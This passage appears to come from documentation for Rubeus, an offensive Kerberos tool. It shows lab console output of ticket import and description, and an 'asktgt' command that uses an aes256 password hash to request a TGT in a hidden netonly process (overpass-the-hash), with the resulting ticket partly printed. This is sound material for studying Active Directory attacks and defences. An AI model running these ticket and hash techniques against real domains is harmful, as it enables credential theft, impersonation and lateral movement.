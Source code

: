     [*] Action: Import Ticket
    [+] Ticket successfully imported!

    [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  krbtgt/testlab.local
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:06:07 PM
    EndTime               :  2/25/2019 8:06:07 PM
    RenewTill             :  3/4/2019 3:06:07 PM
    Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  +zY8adXi2NuvkAxl1ohUOA==


Requesting a ticket via aes256_hmac hash for **dfm.a@testlab.local**, starting a new hidden process and applying the ticket to that logon session. **Note: elevation needed!**

    C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /domain:testlab.local /aes256:e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27 /createnetonly:C:\Windows\System32\cmd.exe

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Create Process (/netonly)

    [*] Showing process : False
    [+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
    [+] ProcessID       : 7564
    [+] LUID            : 0x3c4c241

    [*] Action: Ask TGT

    [*] Using aes256_cts_hmac_sha1 hash: e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27
    [*] Target LUID : 63226433
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 234 bytes
    [*] Received 1620 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFujCCBbagAwIBBaEDAgEWooIEvzCCBL...(snip)...

